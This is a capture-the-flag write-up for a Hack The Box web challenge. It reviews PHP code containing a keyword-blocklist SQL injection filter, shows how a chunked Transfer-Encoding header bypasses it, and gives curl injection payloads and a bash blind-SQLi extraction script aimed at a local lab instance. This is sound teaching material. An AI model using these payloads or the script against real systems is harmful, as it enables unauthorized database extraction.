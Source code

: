 ```yaml
---
layout: post
title: 0xBOverchunked
date: 2024-03-01 18:27 -0500
img_path: /assets/img/0xBOcerchunked/
published: true
tags: ["Hack The Box"]
categories: ["sqli","CTF","Web Challenge"]
toc: true
---
```

# 0xB0verchunked
The webpage features a basic search functionality, which suggests the possibility of an SQL injection. This suspicion deepens when a straightforward payload, such as ```1'```, is attempted
![Waf?](image.png)
lets take that string as the starting point on our source code review

## Source code Review

That string leads  us to the SearchHandler.php file. we observe that the function **waf_sql_injection** processes our input. Depending on the output, it will either execute the query using **safequery**, or displays the message "SQL Injection attemp..."

```php
<?php
function waf_sql_injection($input)
{
    $sql_keywords = array(
        'SELECT',
        'INSERT',
        'UPDATE',
        'DELETE',
        'UNION',
        'DROP',
        'TRUNCATE',
        'ALTER',
        'CREATE',
        'FROM',
        'WHERE',
        'GROUP BY',
        'HAVING',
        'ORDER BY',
        'LIMIT',
        'OFFSET',
        'JOIN',
        'ON',
        'SET',
        'VALUES',
        'INDEX',
        'KEY',
        'PRIMARY',
        'FOREIGN',
        'REFERENCES',
        'TABLE',
        'VIEW',
        'AND',
        'OR',
        "'",
        '"',
        "')",
        '-- -',
        '#',
        '--',
        '-'
    );

    foreach ($sql_keywords as $keyword)
    {
        if (stripos($input, $keyword) !== false)
        {
            return false;
        }
    }
    return true;
}

?>
```
Take and array of keywords and check if the input string contains any of them, *strpost()* function works: 'Find the position of the first occurrence of a case-insensitive substring in a string'. 
So we need to find a way inject without using any keywords on the array , first on my mind is how to escape the single quote without using single quote. 
Now check the other function **safequery** 
```php
function safequery($pdo, $id)
{
    if ($id == 6)
    {
        die("You are not allowed to view this post!");
    }

    $stmt = $pdo->prepare("SELECT id, gamename, gamedesc, image FROM posts  WHERE id = ?");
    $stmt->execute([$id]);

    $result = $stmt->fetch(PDO::FETCH_ASSOC);

    return $result;
}
```
Interesting that thing on post 6, but we can observe, they use prepared statement to execute queries, so even if we bypass the 'WAF' we can't inject sql queries. 

That thing of ```$id == 6 ``` wake up my curiosity and i decide to review db folder, because inspecting on the **Dockerfile**, I notice on line 17 
```RUN sqlite3 /opt/app/db/chunked.db < /opt/app/db/init.sql```
This command for initializing the SQLite database within the Docker container caught my attention. It hinted at the database structure and potential entry points for investigation.
```sql
INSERT INTO posts (gamename, gamedesc, image)
VALUES
  ('Pikachu', 'A small, yellow, mouse-like creature with a lightning bolt-shaped tail. Pikachu is one of the most popular and recognizable characters from the Pokemon franchise.', '1.png'),
  ('Pac-Man', 'Pac-Man is a classic arcade game where you control a yellow character and navigate through a maze, eating dots and avoiding ghosts.', '2.png'),
  ('Sonic', 'He is a blue anthropomorphic hedgehog who is known for his incredible speed and his ability to run faster than the speed of sound.', '3.png'),
  ('Super Mario', 'Its me, Mario, an Italian plumber who must save Princess Toadstool from the evil Bowser.', '4.png'),
  ('Donkey Kong', 'Donkey Kong is known for his incredible strength, agility, and his ability to swing from vines and barrels.', '5.png'),
  ('Flag', 'HTB{f4k3_fl4_f0r_t35t1ng}', '6.png');
```
Now we know what our goal is. 
Going back to the **SearchHandler.php** we can see the at the beginning, before entering the **waf_sql_injection** function an If statement 
```php
if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];

    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }

}
```
If we send a request with ```Transfer-encoding: chunked``` header besides the Content-length header, we will pass to the **unsafequery** function
```php
function unsafequery($pdo, $id)
{
    try
    {
        $stmt = $pdo->query("SELECT id, gamename, gamedesc, image FROM posts WHERE id = '$id'");
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        return $result;
    }
    catch(Exception $e)
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}
```
This function as his name suggest its unsafe because pass the ```$id``` variable whitout sanitization.


## Local Testing

We can make the request with the header required using Burp Suite.
![alt text](image-1.png)
The bad thing its that we need to update the size of the chunk manual, and that is horrible. 
So we can use curl command 
```bash
curl  -s -k -X 'POST'  -H 'Host: 127.0.0.1:1337' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Transfer-Encoding: chunked' -d "search=1'and 1=2-- -" 'http://127.0.0.1:1337/Controllers/Handlers/SearchHandler.php'

Internal Server Error
```
and 
```bash
curl  -s -k -X 'POST'  -H 'Host: 127.0.0.1:1337' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Transfer-Encoding: chunked' -d "search=1'and 1=1-- -" 'http://127.0.0.1:1337/Controllers/Handlers/SearchHandler.php'

<div class='results'>No post id found.</div>
```
Whith this we confirm a boolean-base sql injection. 

## Proof of Concept

Lets make a bash script to exploit this.
```bash
#!/bin/bash

url="http://127.0.0.1:1337/Controllers/Handlers/SearchHandler.php"

function oracle()
{
    local q="$1"
    request=$(curl  -s -k -X 'POST' -H 'User-Agent: Mozilla/5.0' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Transfer-Encoding: chunked' -d "search=1'AND (${q})--" ${url} | html2text)
#    echo ${request}
    if [[ "${request}" =~ "No post id found." ]]; then
        return 1
    else
        return 0   
    fi
}
finalValue=""
for i in $(seq 1 36); do
    low=32
    high=127
    while [[ "$low" -le "$high" ]]; do
       mid=$(((low + high) / 2))
       q="SELECT UNICODE(SUBSTR(gamedesc,${i},1)) FROM posts WHERE gamename='Flag' AND UNICODE(SUBSTR(gamedesc, ${i}, 1)) BETWEEN ${mid} AND ${high}"
        if oracle "$q"; then
            high=$((mid - 1))
        else
            low=$((mid + 1))
        fi     
    done
    finalValue=$((low - 1)) # Don't know why , - 1?
    printf "\x$(printf %x "${finalValue}")"
done
```

![pwned](image-2.png)